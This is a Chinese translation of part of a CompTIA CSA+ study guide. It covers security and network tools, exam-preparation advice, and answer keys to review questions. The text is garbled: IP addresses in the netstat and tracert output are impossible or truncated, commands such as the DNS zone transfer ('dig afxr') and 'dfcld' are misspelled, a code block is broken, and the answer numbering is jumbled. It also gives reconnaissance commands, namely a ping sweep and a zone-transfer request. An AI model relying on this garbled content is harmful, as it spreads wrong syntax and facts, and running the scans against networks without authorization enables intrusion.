| TCP | 10.88.2.103:62790 | v-client-h27 | 等待关闭 |
| TCP | 10.88.2.103:63771 | ec2-174-129-206-197:https | 等待关闭 |
| TCP | 10.88.2.103:63772 | v-u3127 | 建立连接 |
| TCP | 10.88.2.103:63778 | 65.55.121.231 | 建立连接 |
| TCP | 10.88.2.103:63778 | 160.75.297:280 | 建立连接 |
| TCP | 10.88.2.103:63779 | 65.124.176.55 | 建立连接 |
| TCP | 10.88.2.103:63781 | 70.37.131.111 | 建立连接 |
| TCP | 10.88.2.103:63794 | 65.124.176.54 | 建立连接 |
| TCP | 10.88.2.103:63796 | 207.46.140.46 | 建立连接 |
| TCP | 10.88.2.103:63791 | 64.43.138 | 建立连接 |
| TCP | 10.88.2.103:63792 | tmcmillan:51543 | 建立连接 |
| TCP | 127.0.0.1:2006 | tmcmillan:51571 | 建立连接 |
| TCP | 127.0.0.1:51543 | tmcmillan:51550 | 建立连接 |
| TCP | 127.0.0.1:51559 | tmcmillan:51549 | 建立连接 |
| TCP | 127.0.0.1:53862 | tmcmillan:53872 | 建立连接 |
| TCP | 127.0.0.1:53869 | tmcmillan:53869 | 建立连接 |
| TCP | 127.0.0.1:53870 | tmcmillan:53870 | 建立连接 |
| TCP | 127.0.0.1:63527 | tmcmillan:63524 | 建立连接 |
| TCP | 127.0.0.1:63574 | tmcmillan:63557 | 建立连接 |

```
C:\Users\tmcmillan>
```

# Netstat 可使用的其他 5 参数

| 参数 | 描述 |
|---|---|
| -a | 显示所有连接和监听端口。 |
| -e | 显示以太网统计信息。 |
| -n | 以数字形式显示地址和端口主机名。 |
| -s | 按协议显示统计信息。 |
| -p | 显示每个进程对应的 TCP 或 UDP。 |
| -r | 显示路由表。 |

`ping` 命令使用 `ICMP` 协议测试两个设备之间的连通性。`ping` 是排排除故障最有用的命令之一，它向另一个系统发送一系列数据包并接收响应。`ping` 命令指示主机是否可以访问以及所需时间。在局域网（`LAN`）上，该时间通常小于 10 毫秒。跨广域网（`WAN`）时，此值可能会大得多。当包含 -a 参数时，`ping` 还会尝试解析与 `IP` 地址关联的主机名。可以通过简单的批处理文件执行此操作，如下：

```


# 网络与系统命令示例

扫描 `192.168.1.0` 网络，使用以下命令：

```
for /L %i in (1,254) do ping -n -w 100 192.168.1.%i
```

`tracer` 命令（在 Linux 和 Unix 中称为 `traceroute`）用于跟踪数据包通过网络的路径。它的最佳用途是确定数据包跨越每一个跳数以及所需的时间。

在 Windows 系统中，使用 `tracert` 命令示例如下：

```
Microsoft Windows [版本 10.0.19045.1]. 版权所有。
C:\WINDOWS\system32>tracert www.google.com
正在探测 www.google.com [最多 30 跳]:
   1    23 ms  22 ms  23 ms  10.200.97.1
   2    15 ms  14 ms  15 ms  249.211.193
   3    12 ms  11 ms  12 ms  70.65.148.110
   4    15 ms  14 ms  15 ms  24.27.255.238
   5    15 ms  14 ms  15 ms  102.0.2.1
   6    15 ms  13 ms  15 ms  172.217.244.1
   7    20 ms  19 ms  20 ms  142.250.73.1
   8    21 ms  20 ms  21 ms  142.250.73.1
   9    20 ms  19 ms  20 ms  142.250.73.1
  10    21 ms  20 ms  21 ms  107.14.9.46
  11    16 ms  15 ms  16 ms  168.104.117
  12    16 ms  15 ms  16 ms  216.158.140
  13    22 ms  21 ms  22 ms  207.217.148
  14    25 ms  24 ms  25 ms  207.217.148
  15    26 ms  25 ms  26 ms  207.217.201
  16    26 ms  25 ms  26 ms  207.217.201
  17    26 ms  29 ms  26 ms  207.217.191
  18    26 ms  25 ms  26 ms  154.54.9
  19    26 ms  25 ms  26 ms  154.54.109
  20    27 ms  26 ms  27 ms  154.54.222
  21    31 ms  30 ms  31 ms  154.54.618
  22    23 ms  22 ms  23 ms  8.1.43.66
跟踪完成。
C:\WINDOWS\system32>
```

## IP 配置：`ipconfig` / `ifconfig`

`ipconfig` 命令用于查看设备的 IP 配置，结合开关或参数使用时，可用于释放和续订从 DHCP 服务器获取的 IP 地址租约并刷新 DNS 解析器。最常见的用法是查看当前配置。图 22 显示了使用 `/all` 参数时关于 IP 配置的丰富信息。`ipconfig` 可用于释放和续订从 DHCP 服务器获取的 IP 地址租约（通过执行 `/release` 和 `/renew`）。当你修正了配置（例如 IP 地址）后，可能还需要向 DNS 服务器注册新的 IP 地址，可以通过执行 `ipconfig /register` 实现。可能还需要清除存在于设备上的错误 IP 地址到主机名的映射，可以通过执行 `ipconfig /flushdns` 命令来实现。

如果你使用的是 Linux 或 Unix 系统，命令不是 `ipconfig` 而是 `ifconfig`。图 23 显示了该命令的示例及其输出。`ifconfig` 命令配合 `-a` 参数显示所有网络接口信息，即使接口处于关闭状态。

## DNS 查询：`nslookup` / `dig`

`nslookup` 命令是一种用于测试和排查 DNS 服务器的命令行工具。它有两种运行模式：交互式和非交互式。非交互模式适用于只需要返回单个数据的情况，而交互模式允许你在不离开 `nslookup` 模式的情况下查询名称或 IP 地址。命令语法如下：

```
nslookup [-option] [主机名] [服务器]
```

要进入交互模式，只需输入 `nslookup`：

```
C:\ nslookup
默认服务器:nameserver1.domain.com
地址:10.0.0.1
```

这样做后，`nslookup` 会识别本地机器配置使用的 DNS 服务器的 IP 地址和名称（如果有），并进入 `>` 提示符。在此提示符处，你可以输入 IP 地址或名称，系统将尝试将 IP 地址解析为名称或将名称解析为 IP 地址。

执行区域传输（称为 DNS 采集）的操作如下：

```
$ dig afxr dns2.mcmillan.com mcmillan.com
```

该命令向名为 `Dns2.mcmillan.com` 的 DNS 服务器请求获取 `mcmillan.com` 域记录的区域传输。

# Sysinternals

`Sysinternals` 是一个包含 70 多个工具的集合，可用于故障排除和安全问题。`Sysinternals` 中包含的一些安全相关工具如表 14-6 所示。


## 表 14-6. Sysinternals 安全工具

| 工具 | 用途 |
| :--- | :--- |
| `AccessChk` | 显示指定的用户或组对文件、注册表项或 Windows 服务的权限。 |
| `AccessEnum` | 显示系统中对目录、文件和注册表项的访问权限。 |
| `Autorins` | 显示系统启动和登录时自动启动的程序。 |
| `LogonSessions` | 列出活动登录会话。 |
| `PsLoggedOn` | 显示登录到系统的用户。 |
| `SDelete` | 使用符合 DoD 标准的安全删除程序覆盖敏感文件，并清理已删除文件的空闲空间。 |
| `ShareEnum` | 扫描网络上的文件共享，以便查看其安全设置并修复安全漏洞。 |

# OpenSSL

`OpenSSL` 是一个支持 SSL/TLS 协议的软件函数库。安装 `OpenSSL` 后，可以使用一组命令。`OpenSSL` 是开源的，并用 C 语言编写。以下是你可以使用此工具执行的一些功能：

- 生成证书请求
- 生成自签名证书
- 生成自签名密钥
- 测试 SSL 服务器

# IDS/HIDS

`IDS` 或 `HIDS` 是属于多个类别的工具示例，因为它既是集合性工具也是预防性工具。`IDS` 和 `HIDS` 系统在本章的早期已经讨论过。

# 分析工具

某些工具旨在通过分析收集到的信息来做出某种类型的安全判定。事实上，我们已经讨论过的许多属于预防类或集合类的工具也因为其分析能力而属于这一类。接下来的章节将简要介绍之前提到的某些工具的分析侧方面，并介绍一些新工具。

## 漏洞扫描

我们讨论过的所有漏洞扫描器都属于分析类，因为它们能够扫描网络信息并对其进行组织，以便轻松定位安全问题。这些扫描器包括：

- `Qualys`
- `Nessus`
- `OpenVAS`
- `Nexpose`
- `Nikto`
- `Microsoft Baseline Security Analyzer`

## 监控工具

接下来的章节将从其他类别查看一些监控工具的能力，其中一些工具在本章早期已经介绍过。

## MRTG

多路由器流量图表 (`MRTG`) 使用 `SNMP` 创建显示路由器和交换机接口进出流量的图表。它提供了一种视觉观察的方法，在许多情况下，这比使用原始数据更快地识别和解决问题。图 14-24 显示了使用 `MRTG` 进行流量分析的示例。

更多信息，请参见 `http://searchnetworking.techtarget.com/tip/The-Multi-Router-Traffic-Grapher`。

### 图 14-24. MRTG

## `10.36.129.210` -- `localhost.localdomain` 的流量分析

系统：Linux, CentOS 中的 `localhost.localdomain`
描述：`eth0`
类型：`ethernetXcmacd` (6)
名称：`eth0`
最大速度：100.0 Mbps/s
Ip：`10.36.129.210`

统计信息最后更新于 2016 年 7 月 12 日周一 16:20，当时“`localhost.localdomain`”已运行 0:05:55

### 每日图表（5 分平均值）


| | 最大值 | 当前 |
| :--- | :--- | :--- |
| 入站 | 223.0 kbps (0.0%) | 12.3 kbps (0.1%) | 18.2 kbps (0.2%) |
| 出站 | 523.0 kbps (0.0%) | 456.0 kbps (0.0%) | 270.0 kbps (0.0%) |

### 每周图表（30 分平均值）


| | 最大值 | 当前 |
| :--- | :--- | :--- |
| 入站 | 275.2 kbps (0.0%) | 275.2 kbps (0.0%) | 275.2 kbps (0.0%) |

```
10.36.129.210

Linux OS & Server A...

> (DIY) Book Scanner * View T... Linux OS & Service Servericat... Linux MRTG Configuration root@localhost.net:http
```

## Nagios

`Nagios` 是一个监控网络和主机的工具。它用于在服务或主机故障时警报管理员。它是提供详细统计信息的监控工具示例。

## Solarwinds

`SolarWinds` 提供了一用于网络管理和分析的工具 set。这些工具用于监控性能并识别潜在问题。

## Cacti

`Cacti` 是一个开源的网络监控图表解决方案，使用 `SNMP` 收集数据并随时间绘制图表。

## Metasploit

`Metasploit` 是一个开源框架，在本文编写时，它自带了 556 个漏洞利用。还有一个名为 `Rapid7 Exploit Database` 的漏洞数据库，包含超过 3000 个模块，你可以下载以获取额外的漏洞。图 14-25 显示了 `Metasploit` 的 Web 界面。攻击者（或测试人员）从顶部面板选择一个漏洞，然后从底部选择一个有效负载（payload）。一旦启动攻击，测试人员可以使用控制台与主机进行交互。使用这些漏洞利用框架应该是测试应用程序安全漏洞的一部分。

### 图 14-25. Metasploit


## Nexpose

`Nexpose` 是由 `Rapid7` 开发的一种种漏洞扫描器。`Nexpose` 的输出可以导入 `Metasploit`，`Metasploit` 可以将识别出的漏洞与现有的利用模块进行对比，以实现精确的利用。

## 模糊测试器（Fuzzers）

你在第 13 章“应用程序安全最佳实践”中学习了模糊测试（fuzzing）的过程。这些工具向应用程序发送无效和意外的输入，以评估应用程序的行为。从安全的角度来看，这样做是为了识别应用程序在接收每个输入时可能产生的任何安全问题。

### Untidy/Peach 模糊测试器

`Untidy` 和 `Peach` 模糊测试器曾是独立的工具，但它们现在不再是独立的产品了。`Untidy` 是一个专门针对 XML 的模糊测试器，已整合到 `Peach` 平台中。图 14-26 显示了 `Peach` 的输出。它是一个模糊测试应用程序，带有一个名为 `StringMutator` 的变异器，可以不断更改输入。

### 图 14-26. Peach


你可以从此输出中看到该工具导致了崩溃。`Peach` 通过重现错误验证了该故障。它会将更详细的信息发送到日志中，你可以阅读日志来了解究竟是哪个字符串值导致了崩溃。

### Microsoft SDL 文件/正则模糊测试器

`Microsoft SDL` 文件/正则模糊测试器实际上由两个工具组成。一个是文件模糊测试器（File Fuzzer），用于在文件中生成随机内容；另一个是正则模糊测试器（Regex Fuzzer），用于使用正则表达式测试函数。这些工具已不再可用，但微软正在推出一种新的云端模糊测试服务。图 14-27 显示了正则模糊测试器引导用户完成模糊测试的过程。如图所示，在步骤 1 中，你输入要测试的表达式模式，然后继续后续步骤。

### 图 14-27. 正则模糊测试器


## 数字取证工具（Forensics Tools）

取证工具用于网络调查中的证据收集。该类别包括取证套件、哈希实用程序、密码破解工具和镜像工具。

## 数字取证套件（Forensic Suites）

正如你在第 8 章“应急响应流程”中所学习的，取证套件包含许多工具，包括：

- 镜像工具
- 分析工具
- 监管链（Chain of custody）
- 哈希实用程序
- 操作系统和进程分析
- 移动设备取证
- 密码破解器
- 加密工具
- 日志查看器

以下章节将简要介绍一些最流行的取证套件。

### EnCase

`EnCase Forensic` 是一种案件（事件）管理工具，为特定类型的调查提供了内置模板。这些模板基于工作流，即根据调查类型执行的步骤。工作流会引导你完成事件的分类（triage）、收集、解密、处理、调查和报告等步骤。

更多信息，请参阅 `www.guidancesoftware.com/encase-forensic`。

### FTK

`Forensic Toolkit (FTK)` 是一个商业工具包，可以扫描硬盘以查找各种信息。该工具包还包括一个镜像工具和一个 `MD5` 哈希实用程序。它可以定位相关证据，例如已删除的电子邮件。它还包含一个密码破解器以及处理彩虹表（Rainbow tables）的能力。

更多信息，请参阅 `http://accessdata.com/solutions/digital-forensics/forensic-toolkit-fk`。

### Helix

`Helix` 以现场 CD 的形式提供，可以挂载到主机上而不影响主机上的数据。通过该现场 CD，你可以获取证据并制作驱动镜像。该产品由 `e-fense` 以订阅方式销售。

更多信息，请参阅 `www.e-fense.com/products.php`。

### Sysinternals

你在在本章前面的部分学习到，`Sysinternals` 是一个 Windows 命令行工具，包含 70 多个工具，可用于故障排除和安全问题。其中就包括取证工具。

更多信息，请参阅 `https://technet.microsoft.com/en-us/sysinternals/bb545021.aspx`。

### Cellebrite

`Cellebrite` 通过专注于从智能手机中收集证据找到了利基市场。它有各种可以在现场使用的提取设备以及执行相同功能的软件。这些提取设备从内存中收集元数据，并尝试绕过锁定机制访问文件系统。它们不会修改设备上的任何数据，这使得解决方案在取证上是“干净”的。该设备用于取证分析。更多信息，请参阅 `www.cellebrite.com`。

### 哈希（Hashing）

正如你在第 7 章“识别影响和取证工具包”中所学习的，哈希是一种确保文件完整性的过程。有很多哈希算法。

#### MD5

`MD5` 算法是一种常用的哈希函数，但在加密用途上不再被认为是安全的。它仍然广泛用于验证文件完整性。

#### SHA

安全哈希算法（SHA）比 `MD5` 更强，广泛用于确保数据的完整性。`SHA` 有多个版本，例如 `SHA-256` 和 `SHA-512`。

### 密码破解（Password Cracking）

密码破解工具用于从加密数据恢复密码。常见方法包括暴力破解、字典攻击和彩虹表。

#### John the Ripper

`John the Ripper` 是一种用于故障排除和安全问题的密码破解器。它支持许多平台并提供三个版本：官方免费版、社区增强版和付费版。

#### Cain & Abel

密码破解程序之一是 `Cain & Abel`。它可以嗅探网络、破解密码并执行暴力破解。图 14-28 显示了该工具的示例输出。

### 图 14-28. Cain & Abel


### 镜像（Imaging）

在调查期间对目标磁盘进行任何分析之前，应对磁盘制作位级镜像，以便在副本上进行分析。因此，镜像工具应该是其的一部分。有很多取证镜像工具，许多取证套件都包含了它们。

#### DD

`dd` 命令是用于转换和复制文件的 Unix 命令。美国国防部创建了该命令的分支，称为 `dfcld`，它增加了取证功能。只需通过正确的参数和语法使用 `dd` 即可制作磁盘镜像，但 `dfcld` 允许同时生成源哈希。例如，以下命令：

```
dfcld if=/dev/sourcedrive hash=md5,sha256 hashwindow=10G
```


此示例还计算了 5 GB 分块 MD5 哈希和 SHA-256 哈希。它读取下一个 5 GB 并命名为 `myimage.db.aa`。MD5 哈希存储在 `md5.txt` 文件中，SHA-256 哈希存储在 `hashsha.txt` 中。传输块大小设置为 512 字节，并在发生读取错误时，`dcld` 会写入零。

每个项所在的页码。

表 14-7. 第 14 章关键主题

| 关键主题元素 | 描述 | 页码 |
|---|---|---|
| 表 14-2 | 防火墙类型的优缺点 | |
| 表 14-3 | 防火墙类型的典型部署位置 | |
| 表 14-4 | WAF 部署方案的优缺点 | |
| 表 14-5 | Netstat 参数 | |
| 表 14-6 | Sysinternals 安全工具 | |
| 列表 | NetFlow 中流共享的数值 | |

## 定义关键术语

定义本章中的以下关键术语，并对照术语表检查你的答案：

*   入侵检测系统 (IDS)
*   入侵防御系统 (IPS)
*   Sourcefire
*   Snort
*   Bro
*   基于主机的入侵防御系统 (HIPS)
*   防火墙
*   包过滤防火墙
*   电路级代理
*   应用层代理
*   内核代理防火墙
*   堡垒机
*   双宿主防火墙
*   多宿主防火墙
*   过滤主机防火墙
*   过滤子网
*   自适应安全设备 (ASA)
*   Palo Alto
*   Check Point
*   增强缓解工具包 (EMET)
*   Web 代理
*   Web 应用程序防火墙 (WAF)
*   ModSecurity
*   Nginx 防跨站脚本 & SQL 注入 (NAXSI)
*   Imperva
*   安全信息和事件管理 (SIEM)
*   ArcSight
*   QRadar
*   Splunk
*   开源安全信息管理 (OSSIM)
*   Kiwi Syslog
*   Nmap
*   Qualys
*   Nessus
*   OpenVAS
*   Nexpose
*   Nikto
*   Microsoft 基准安全分析器 (MBSA)
*   Wireshark
*   Tcpdump
*   Network General
*   Aircrack-ng
*   Netstat
*   ping
*   tracert/traceroute
*   ipconfig/ifconfig
*   nslookup/dig
*   Sysinternals
*   OpenSSL
*   多路由器流量图表 (MRTG)
*   Nagios
*   SolarWinds
*   Cacti
*   NetFlow
*   拦截代理
*   Burp suite
*   Zap
*   Vega
*   漏洞框架
*   Metasploit
*   模糊器
*   Untidy/Peach Fuzzer
*   取证套件
*   EnCase
*   取证工具包 (FTK)
*   Helix
*   Cellebrite
*   哈希处理
*   MD5sum
*   SHAsum
*   John the Ripper
*   Cain & Abel
*   DD

## 复习题

1.  哪家由 Cisco 拥有的 IDS 厂商创建了基于 `Snort` 的产品？
    *   a. `Sourcefire`
    *   b. `Bro`
    *   c. `AlienVault`
    *   d. `WhatsUp Gold`

2.  哪种类型的防火墙只检查数据包，对吞吐量的影响最小？
    *   a. 状态检测防火墙
    *   b. 包过滤防火墙
    *   c. 代理防火墙
    *   d. 内核代理防火墙

3.  下列哪个设备直接暴露在互联网或任何不可信网上，同时保护其他网络免于暴露？
    *   a. 代理
    *   b. 过滤子网
    *   c. 堡垒机
    *   d. 双宿主主机

4.  下列哪个防火墙被称为自适应安全设备 (ASA)？
    *   a. `Check Point`
    *   b. `Palo Alto`
    *   c. `Juniper`
    *   d. `Cisco`

5.  下列哪个是微软提供的一组缓解工具，有助于防止软件中漏洞被利用？
    *   a. `EMET`
    *   b. `Fiddler`
    *   c. `WAF`
    *   d. `Peach`

6.  下列哪个是一个支持 OWASP 核心规则集 (CRS) 并设计用于保护 `Apache`、`nginx` 和 `IIS` 的开源工具包？
    *   a. `NAXSI`
    *   b. `ModSecurity`
    *   c. `Wireshark`
    *   d. `Imperva`

7.  下列哪个**不是** SIEM 系统？
    *   a. `ArcSight`
    *   b. `QRadar`
    *   c. `Nessus`
    *   d. `Splunk`

8.  下列哪个命令显示所有连接和监听端口？
    *   a. `netstat -n`
    *   b. `netstat -s`
    *   c. `netstat -a`
    *   d. `netstat -e`

9.  下列哪个命令用于在 Linux 中排查 DNS？
    *   a. `nslookup`
    *   b. `nbtstat`
    *   c. `netstat`
    *   d. `dig`

10. 下列哪种是 Cisco 开发的方法，用于识别共享七个数值的单向数据包序列？
    *   a. `NetFlow`
    *   b. `Cacti`
    *   c. `SNMP`
    *   d. `Burp`

# 第 15 章 最后的准备

本书的前 14 章涵盖了配置和使用威胁检测工具、执行数据分析以及解释结果以识别组织的漏洞、威胁和风险所需的知识和技能，最终目标是通过 CompTIA 网络安全分析师 (CSA+) 认证 CS0-001 考试。虽然这些章节提供了详细信息，但大多数人需要的准备比仅仅阅读本书的前 14 章要多。本章详细介绍了一套工具和学习计划来帮助你。

一旦进入考试设置界面，你可以选择三种模式之一进行考试：

*   **学习模式 (Study mode)**：学习模式允许你完全自定义考试内容，并在考试过程中查阅答案。这通常是你初次学习使用的模式，用于评估你的知识水平并识别信息缺口。
*   **练习模式 (Practice mode)**：练习考试模式会锁定某些自定义选项，因为它提供了真实的考试体验。当你准备测试自己的考试就绪程度时，请使用此模式。
*   **闪卡模式 (Flash Card)**：闪卡模式会剥离答案，只向你展示题目项。这种模式非常适合后期准备工作，即当你真正想要挑战自己，在没有多选题参考的情况下给出答案时使用。然而，此模式不提供另外两种模式所提供的详细评分报告，因此，如果你正试图识别知识缺口，则不应使用它。

除了这三种模式外，你还可以选择题目的来源。你可以选择涵盖所有章节的考试，也可以将范围缩小到单个章节或构成书中特定部分的章节。默认会选中所有章节。如果你想将重点缩小到特定章节，只需取消所有章节的选中，然后仅在“目标 (Objectives)”区域选择你想要关注的章节。

你还可以选择要关注的题库。每个题库都包含一套涵盖每个章节主题的完整考试。书中打印的两个考试也可以作为额外的两个题目题目供你使用。你可以通过在“题库 (exam bank)”区域选择所需的题库，让测试引擎提供所有四个库的考试，或仅提供某一个题库的考试。

你还可以在考试设置界面对考试进行其他几项自定义，例如考试时间、题目数量、是否随机化题目和答案、是否显示多选题的正确答案数量，以及是否仅提供特定类型的题目。你还可以通过仅选择你已标记的题目或添加了注释的题目创建自定义题库。

## 更新你的考试

如果你使用的是 Pearson Test Prep 软件的在线版本，你应该始终能够访问最新版本的软件以及考试数据。如果你使用的是 Windows 桌面版本，每次启动软件时，它都会检查考试数据是否有更新，并自动下载自上次使用软件以来产生的所有更改。在启动软件时你必须连接互联网。

有时，由于多种因素，在激活考试时考试数据可能无法完全下载。如果你发现图表或展图缺失，你可能需要手动更新考试。

要更新已激活并下载的特定考试，只需选择“工具 (Tools)”选项卡，然后点击“更新产品 (Update Products)”按钮。再次，这仅适用于 Windows 桌面应用程序。

如果你想检查 Pearson Test Prep 软件 Windows 桌面版本的更新，只需选择“工具 (Tools)”选项卡，然后点击“更新应用程序 (Update Application)”按钮，以确保运行的是最新版本的软件引擎。

## 高级版 (Premium Edition)

除了网站提供的免费练习考试外，你可以直接从 Pearson IT Certification 购买具有扩展功能的额外考试。该书的高级版包含额外的两个完整练习考试和一本电子书（提供 PDF 和 ePub 格式）。此外，高级版为每个问题提供了补救方案，指向电子书中与问题相关的特定部分。

由于你购买了该书的纸质版，你可以以深度折扣购买高级版。书封内有一个一次性使用的代码，以及在哪里使用该代码购买高级版的说明。

要查看高级版产品页面，请访问 `www.informit.com/title/9780134683331`。

## 章节复习工具

第 1 至第 14 章的每一章末尾的“考试准备任务 (Exam Preparation Tasks)”部分都包含几个功能。你可能已经在每一章中学习过它们了。在为考试做最后的准备时，再次使用这些工具也会很有帮助。

## 建议的最终复习/学习计划

本节列出了从你完成这本书到你参加 CSA+ CS0-001 考试期间遵循的建议学习计划。当然，你可以忽略此计划、原样使用它，或参考其中的建议。

该计划涉及三个步骤：

步骤 1. 复习关键主题和“我已经知道这些了吗？”(DIKTA) 测验题：你可以使用列出每章关键主题的表格，或者直接翻页寻找关键主题。此外，复习章节章节开头的 DIKTA 问题对复习很有帮助。

步骤 2. 复习“复习题 (Review Questions)”部分：浏览每章末尾的复习题，识别你需要学习的领域。

步骤 3. 使用 Pearson Cert Practice Test 引擎进行练习：你可以使用本书专有的、模拟真实考试的题库通过 Pearson Cert Practice Test 引擎进行学习。

## 总结

本章列出的工具和建议设计目标只有一个：帮助你培养通过 CSA+ CS0-001 考试所需的技能。这本书从开发之初不仅是为了告诉你事实，还为了帮助你学习如何应用它们。无论你在参加考试前的经验水平如何，我们都希望广泛的准备工具和书的结构能帮助你轻松通过考试。祝你考试取得好成绩。

# 附录 A。“我已经知道这些了吗？”测验和复习题答案

## 第 1 章

### “我已经知道这些了吗？”测验

1.  C. 通过识别开放端口发现设备上的可用服务。
2.  B. 通过确定操作系统，攻击者可能会利用缺少安全补丁的漏洞。
3.  A. 攻击者可能会尝试这种被称为电子邮件钓鱼的过程，安全分析师也应该这样做。通常使用电子邮件钓鱼机器人来进行。
4.  B. 网络钓鱼是一种社交工程攻击，涉及向接收者发送看似来自信任方（如银行）的邮件。它包含一个指向银行的链接，实际上是攻击者控制的假网站。当用户输入凭据时，攻击者会收集并冒充用户。
5.  A. 更多的虚拟机意味着更多的故障点，即使没有恶意也会产生问题。
6.  A. 堡机可能不是防火墙。该术语实际上指的是设备的位置。如果它直接暴露在互联网或任何不可信的网络中，就是一个堡机。

### 复习题

1.  C. 这些信息的任何组合都允许黑客创建网络地图，有助于评估和解释其他部分的数据。
2.  C. 通过确定系统中运行的服务，攻击者可以发现其可能尝试攻击的漏洞。这通常通过扫描所有“开放”或“监听”端口来完成。
3.  D. 数据包捕是通过使用捕获工具从网络收集原始数据包的过程。攻击者有机会就会这样做，如果你自己使用捕获工具，可能会发现未加密的敏感数据。
4.  如果攻击者能够设置一个双生（不同通道上具有相同 SSID 的访问点），他可以说服（有时强制）用户连接到他的 AP，并分配 IP 地址使其进入他的网络。此时，攻击者处于可以进行对等攻击的位置。
5.  B. 虚拟机逃逸可以访问所有的虚拟机以及主机。
6.  C. 在扫描数据包中设置了某些标志进行扫描后，安全分析师（和黑客）可以根据收到的响应做出某些假设。
7.  在环境侦察测试期间，你可以使用 `netstat -` 命令来识别主机上的所有连接。
8.  C. IDS 是一个负责检测系统和网络未经授权访问或攻击的系统。它可以验证、分类并描述来自网络外部和内部的威胁。
9.  B. 当攻击开始时，IPS 会采取行动阻止并遏制攻击。
10. D. 当防火墙具有多一个接口时，它就是一个多主机设备。

## 第 2 章

### “我已经认识这些了吗？”测验

1.  D. 通常情况下，你会看到五个部分：
    *   帧（Frame）：这是物理层，描述了线路上有多少个字节。
    *   以太网二型（Ethernet II）：这是数据链路层，包含源和目的 MAC 地址。
    *   IP 协议 4（Internet Protocol version 4）：这是网络层，包含源和目的 IP 地址。
    *   传输控制协议（Transmission Control Protocol）：这是传输层，包含源和目的端口号。
    *   某种类型的数据（Data of some type）：此数据包中数据，因为它是一个 SYN 包，是 TCP 握手的一部分。但如果这是 HTTP 数据（例如），该部分将详细说明 HTTP，并包含原始数据。

2.  D. 安装日志（setup log）关注程序安装期间发生的事件。在安装失败时，它对于故障排除很有用。

3.  A. 许多日志源要么使用 `Syslog` 作为其原生日志格式，要么提供了允许将其日志格式转换为 `Syslog` 格式的功能。

4.  B. 对于大型企业来说，需要分析的日志数据量可能很大。由于如此，许多组织实施了安全信息和事件管理（SIEM）设备，该设备提供了一种分析事件并决定关注重点的自动化解决方案。

5.  C. 基于特征的入侵检测系统（IDS）也被称为误用检测系统。虽然这种 IDS 非常流行，但它只能识别与其数据库匹配的攻击，且其有效性取决于所提供的特征。

6.  A. 异常分析（Anomaly analysis）在应用于任何扫描类型时，都关注识别不寻常或异常的事物。根据扫描类型或捕获流量中的信息，这可能是以下任何一种情况：
    *   在通常流量很少或没有流量时捕获的流量
    *   网络中通常未发现的协议类型的流量
    *   全进出系统的流量水平异常高

### 复习题

1.  C. 协议分析仪检查数据包头部以获取信息，如使用的协议以及涉及通信过程的细节，例如源和目的 IP 地址以及源和目的 MAC 地址。从安全的角度来看，这些包头还可以用于判断是否遵循了协议的通信规则。

2.  C. 数据包分析检查整个数据包，包括负载（payload）。在许多情况下，当通过观察头部无法解决问题时，会进行负载分析。

3.  B. 在许多情况下，感兴趣的是流量统计而不是具体的通信本身。

4.  A. `NetFlow` 是 Cisco 开发的一项技术，现在所有主要供应商都支持，它可以用于收集并随后导出 IP 流量计数信息。流量信息使用 UDP 包导出到 `NetFlow` 分析器，该分析器可以用有用的方式组织信息。

5.  D. 当配置在路由器接口上时，所有属于同一流的封包都共享以下特征：
    *   源 MAC 地址
    *   目的 MAC 地址
    *   IP 源地址
    *   IP 目的地址
    *   源端口
    *   目的端口
    *   三层协议类型
    *   服务类别（Class of service）
    *   路由器或交换机接口

6.  C. WLAN 中使用的争用方法 CSMA/CA 与 CSMA/CD 非常不同。

7.  D. 异常分析关注识别不寻常或异常的事物。

8.  A. 趋势分析（Trend analysis）关注特定类型流量增加或减少或网络中特定行为的长期方向。

9.  B. 正如你从名称中预期的，可用性分析（availability analysis）关注网络上各种设备的在线/离线状态。通常以运行时间的百分比表示，它经常用作服务水平协议（SLA）中的基准。

10. C. 启发分析（Heuristic analysis）使用决策规则或加权方法确定系统对特定威胁/风险的敏感性。它通常被防病毒软件用于识别无法通过特征分析发现的威胁，因为这些威胁太新尚未被分析（称为零日威胁），或者它是一种多管攻击，其构建方式使得现有特征无法识别该威胁。

## 第 3 章

### “我已经认识这些了吗？”测验

1.  D. 虽然从传统上我们认为局域网（LAN）是位于一个地点（如单个办公室）的网络，但将 LAN 称为一组通过快速连接连接的系统更为准确。为了本文讨论，这指的是任何超过 10 Mbps 的连接。

2.  A. 企业级交换机能够创建虚拟局域网（VLAN）。这些是交换机的逻辑划分，将端口相互隔离，就像它们在不同的 LAN 中一样。VLAN 还可以跨越多个交换机，这意味着连接到网络不同部分交换机的设备可以放在同一个 VLAN 中，无论物理位置如何。

3.  B. 跳板机（jump box）或跳板服务器是用于访问位于安全网络区域（如 DMZ）设备的服务器。该服务器跨越两个网络，提供从管理桌面到被管理设备的访问。

4.  C. 路由器和防火墙执行重要的安全功能，因为它们通常在上面配置了访问控制列表（ACL）。ACL 是有序的规则集，用于控制允许或拒绝使用路由器路径的流量。这些规则运行在三层，基于 IP 地址做出决策；或者运行在四层，在此时仅允许某些类型的流量通过。

5.  C. 威慑性控制（Deterrent controls）规定了组织内部可接受的做法。它们的建立是为了向员工正式传达组织的安全指令。威慑性控制的示例包括用户识别和验证、围栏、照明、组织安全策略，例如保密协议（NDA）。

6.  B. 蜜罐（Honeypots）是配置为对黑客具有吸引力的系统，诱使他们花费时间攻击，同时收集攻击信息。在某些情况下，整个网络被称为蜜罐网（honeynets），专门为此目的而配置。

7.  A. 端点安全的最简单形式包括监控以及自动更新和配置安全补丁和防火墙设置。在更高级的系统中，它可能包括在每次连接网络时对其进行检查。

8.  C. 网络访问控制（NAC）是一项超出用户认证的服务，它包括检查用户通过远程访问或 VPN 连接到网络时引入的计算机的状态。

9.  C. 组策略对象（GPO）只能应用于 Active Directory 的组件。这些包括组织单元（OU）、树和域。安全组不是 Active Directory 的组件。

1.  C. 用户的网络访问特权限可能源于其被分配的角色，这通常通过加入特定的安全组来实现。

2.  B. NAC 和 NAP 倾向于对已知威胁做出反应，而不是新威胁。

3.  A. 你只删除不必要的应用程序，而不是所有应用程序。

4.  C. 物理控制是为了保护组织的设施和人员而实施的。人员考虑应优先于所有其他考虑。物理控制的具体示例包括边界安全、证件、刷卡、保安、警犬、人笼（man traps）、生物识别和布线。

6.  A. 当系统允许同时处理两个或多个分类级别的信息时，称其运行在多级安全模式。员工必须对系统中的所有信息签署保密协议（NDA），并根据其安全许可级别、知情范围和正式的访问批准访问相应的子集。

7.  B. 汇洞（Sinkhole）是一种设计用于接收和分析攻击流量的路由器。汇洞可用于执行以下操作：
    *   将流量从目标中引开
    *   监控蠕虫流量
    *   监控其他恶意流量

